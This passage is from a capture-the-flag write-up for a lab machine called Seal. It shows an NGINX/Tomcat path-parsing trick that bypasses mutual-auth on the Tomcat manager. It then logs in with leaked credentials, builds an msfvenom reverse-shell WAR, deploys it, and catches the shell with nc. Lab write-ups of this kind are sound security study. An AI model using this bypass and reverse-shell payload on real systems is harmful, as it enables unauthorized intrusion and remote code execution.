 ![](/img/image-20210903170156205.png)

It's not clear to me if Seal has Apache running, but otherwise it looks
the same. This slide shows the issue I'll exploit on Seal:

![](/img/image-20210903170242220.png)

If I pass a URL like `https://seal.htb/manager;name=0xdf.md`, NGINX
will see it as that full URL, but Tomcat will treat it as
`https://seal.htb/manager.md`. The first URL won't match on
`location /manager.md`, so it won't check for mutual auth. Instead, it
will be forwarded on to Tomcat. But then Tomcat will see just
`/manager.md`, and return that page. It works:

![](/img/image-20210903170504319.png)

Giving it the creds from the old config in BitBucket, allows access:


[![](/img/image-20210903170602960.png)](/img/image-20210903170602960.png)


[*Click for full
![image*](/img/image-20210903170602960.png)



### Shell

With access to the manager panel, I'll create a malicious WAR file using
`msfvenom`:



    oxdf@parrot$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.22 lport=443 -f war -o rev.war
    Payload size: 13316 bytes
    Final size of war file: 13316 bytes
    Saved as: rev.war



I'll select it with the WAR file to deploy section:

![](/img/image-20210903170815101.png)

And push Deploy. It shows up in the applications:

![](/img/image-20210903170835848.png)

With `nc` listening, I'll click `/rev` and it hangs, and a shell
connects:



    oxdf@parrot$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.22 lport=443 -f war -o rev.war
    Payload size: 13316 bytes
    Final size of war file: 13316 bytes
    Saved as: rev.war
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.22] from (UNKNOWN) [10.10.10.250] 36418
    id
    uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
